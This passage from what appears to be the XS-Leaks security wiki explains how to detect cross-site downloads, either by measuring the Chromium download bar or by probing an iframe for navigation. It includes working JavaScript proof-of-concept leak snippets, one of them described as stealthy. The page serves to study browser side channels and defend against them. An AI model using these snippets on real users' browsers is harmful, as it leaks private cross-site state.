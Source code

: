```javascript
// Read the current height of the window
var screenHeight = window.innerHeight;
// Load the page that may or may not trigger the download
window.open('https://example.org');
// Wait for the tab to load
setTimeout(() => {
    // If the download bar appears, the height of all tabs will be smaller
    if (window.innerHeight < screenHeight) {
      console.log('Download bar detected');
    } else {
      console.log('Download bar not detected');
    }
}, 2000);
```

{{< hint important >}}
This attack is only possible in Chromium-based browsers with automatic downloads enabled. In addition, the attack can't be repeated since the user needs to close the download bar for it to be measurable again.
{{< /hint >}}

### Download Navigation (with iframes)

Another way to test for the [`Content-Disposition: attachment`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Disposition) header is to check if a navigation occurred. If a page load causes a download, it does not trigger a navigation and the window stays within the same origin. [Run demo](https://xsinator.com/testing.html#Download%20Detection)

The following snippet can be used to detect whether such a navigation has occurred and therefore detect a download attempt:

```javascript
// Set the destination URL to test for the download attempt
var url = 'https://example.org/';
// Create an outer iframe to measure onload event
var iframe = document.createElement('iframe');
// Don't actually download the file to be stealthy
iframe.sandbox = 'allow-scripts allow-same-origin';
document.body.appendChild(iframe);
// Create an inner iframe to test for the download attempt
iframe.srcdoc = `<iframe src="${url}" ></iframe>`;
iframe.onload = () => {
      try {
          // If a navigation occurs, the iframe will be cross-origin,
          // so accessing "inner.origin" will throw an exception
          iframe.contentWindow.frames[0].origin;
          console.log('Download attempt detected');
      } catch(e) {
          console.log('No download attempt detected');
      }
}
```


[^1]: Protected tweets exposure through the url, [link](https://hackerone.com/reports/491473)
[^2]: Disclose domain of redirect destination taking advantage of CSP, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=313737)
[^3]: Using Content-Security-Policy for Evil, [link](http://homakov.blogspot.com/2014/01/using-content-security-policy-for-evil.html)
[^cache-bypass]: [github.com/xsleaks/wiki/pull/106](https://github.com/xsleaks/wiki/pull/106)
[^spec-redirects]: HTTP-redirect fetch, [link](https://fetch.spec.whatwg.org/#http-redirect-fetch)
[^redirect-leak]: XS-Leaks in redirect flows, [link](https://docs.google.com/presentation/d/1rlnxXUYHY9CHgCMckZsCGH4VopLo4DYMvAcOltma0og)
[^chrome-maxlength]: Chromium Docs - Guidelines for URL Display, [link](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url_display_guidelines/url_display_guidelines.md)
